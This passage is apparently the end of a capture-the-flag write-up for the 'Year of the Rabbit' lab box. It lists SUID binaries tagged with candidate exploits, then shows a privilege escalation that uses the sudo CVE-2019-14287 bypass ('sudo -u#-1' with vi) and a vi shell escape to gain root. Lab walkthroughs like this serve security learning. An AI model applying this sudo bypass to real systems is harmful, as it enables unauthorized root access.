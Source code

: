-rwsr-xr-x 1 root   root        40K Nov 20  2014 /bin/su
-rwsr-xr-x 1 root   root        15K Nov 28  2014 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root   root        23K Nov 28  2014 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-- 1 root   messagebus 288K Feb  9  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-sr-x 1 root   mail        88K Feb 11  2015 /usr/bin/procmail
-rwsr-xr-x 1 root   root        11K Feb 13  2015 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root   root       3.0M Feb 17  2015 /usr/sbin/exim4
-rwsr-xr-x 1 root   root       147K Mar 12  2015 /usr/bin/sudo  --->  /sudo$
-rwsr-xr-x 1 root   root       455K Mar 22  2015 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root   root        27K Mar 29  2015 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root   root        40K Mar 29  2015 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-- 1 root   dip        326K Apr 14  2015 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-xr-x 1 root   root        11K Apr 15  2015 /usr/lib/pt_chown  --->  GNU_glibc_2.1/2.1.1_-6(08-1999)
```
I'm mostly looking at SUID binaries and ssh keys, but now It doesn't seem to be the case.

Running ```sudo -l``` gives me though:
```
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on
        year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```
So it looks like I can edit a file user.txt as a sudo without giving a password via executing vi.  
But it gets more complicated, because this file cannot be run as root (so we cannot use ```sudo``` too).

```
sudo /usr/bin/vi /home/gwendoline/user.txt 
[sudo] password for gwendoline: 
Sorry, user gwendoline is not allowed to execute '/usr/bin/vi user.txt' as root on year-of-the-rabbit.
```
### CVE-2019-14287
There's a CVE though that relates to setting NOPASSWD rule for everyone except root. Here's the [link](https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287)

![cve](https://i.imgur.com/7eKzWlV.png)
So this is the flag... ```-u#-1``` Let's modify our previous command to:  
```sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt``` 
And within the file, proceed with the GTFOBins 
![gtfo-bins](https://i.imgur.com/Sjl3clR.png)
I'll use the second option After that, we get a root shell and we can see the flag in ```/root/root.txt```
Amazing, it was exciting box with so many elements putted into it.

